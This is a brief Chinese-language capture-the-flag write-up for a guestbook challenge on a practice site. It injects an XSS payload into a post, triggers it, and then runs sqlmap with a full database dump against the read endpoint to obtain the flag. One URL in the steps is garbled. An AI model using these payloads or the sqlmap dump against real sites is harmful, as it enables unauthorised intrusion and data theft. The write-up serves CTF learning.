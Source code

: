 1. 我是先打一個XSS到 New Post: `https://ctf.hackme.quest/gb/?mod=new`
> payload: `"><script>alert(1)</script>`

2. 到 message list: `https://ctf.hackme.quest/gb/index.php?mod=home`，點擊發的文，觸發XSS。

3. 觸發後，得到: `[https://ctf.hackme.quest/gb/?mod=read&id=78](ht[
](https://ctf.hackme.quest/gb/?mod=read&id=787)tps://ctf.hackme.quest/gb/?mod=read&id=787)7` url。

4. `sqlmap -u "https://ctf.hackme.quest/gb/?mod=read&id=787" --dbs --dump`掃

![image](https://user-images.githubusercontent.com/75651364/192126746-a0ac4967-6db4-4559-aa1b-79e8c735a723.png)

`FLAG{Y0U_KN0W_SQL_1NJECT10N!!!' or 595342>123123#}`
